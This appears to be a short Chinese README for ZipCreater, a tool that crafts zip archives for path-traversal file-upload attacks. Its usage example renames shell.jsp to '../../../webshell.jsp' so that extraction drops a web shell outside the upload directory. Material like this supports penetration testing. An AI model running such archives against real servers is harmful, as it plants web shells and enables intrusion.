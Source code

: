 ## ZipCreater

ZipCreater主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

使用方式：

假设`/tmp/payload`文件夹内的文件列表如下：

```
1.txt
2.txt
shell.jsp
```

使用ZipCreater可以生成跨目录的文件名：

```
$ zipcreater -source /tmp/payload/ -dest /tmp/exploit.zip -filename shell.jsp -path ../../../webshell.jsp
```

exploit.zip内容如下：

```
1.txt
2.txt
../../../webshell.jsp
```

